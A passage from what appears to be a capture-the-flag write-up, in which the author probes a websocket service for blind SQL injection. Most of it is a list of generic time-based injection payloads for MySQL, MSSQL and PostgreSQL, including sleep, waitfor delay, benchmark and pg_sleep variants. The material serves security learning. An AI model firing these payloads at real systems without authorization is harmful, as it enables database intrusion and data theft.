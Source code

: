 Here we created a code in async to make it  faster but it is not necessary, and if we run it here is result that we get via bash

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/9709b459-4761-4465-9c4e-bde99563ceb9" load="lazy"></img>


Like this we’ve established a comunication with the ws, and now we can try to check if it is vulnerable to something like the `SQL Injection`.
After some tests we see that there are no error messages so we have to exploit it with time-based payloads.

This is the used [wordlist](https://github.com/payloadbox/sql-injection-payload-list#generic-time-based-sql-injection-payloads) to spot the vuln

```plaintext
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
```